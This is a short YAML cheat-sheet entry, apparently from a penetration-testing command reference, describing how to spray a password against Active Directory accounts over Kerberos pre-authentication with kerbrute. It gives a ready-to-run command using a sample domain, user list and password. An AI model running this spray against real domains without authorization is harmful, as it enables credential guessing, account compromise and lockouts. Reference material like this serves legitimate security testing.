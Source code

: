 ```yaml
---
title: |
  Enumerate valid AD accounts through Kerberos Pre-Auth using password spray
description: |
  ropnop's kerbrute bruteforces and enumerates valid Active Directory accounts through Kerberos Pre-Authentication. The following command will perform a password spray account against a list of provided users given a password.

  Command Reference:

  	Domain: test.local

  	Username List: domain_users.txt

  	Password: Welkom01!
command: |
  kerbrute passwordspray -d test.local domain_users.txt Welkom01!
items:
  - Password
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Enumeration
references:
  - https://github.com/ropnop/kerbrute
---
```

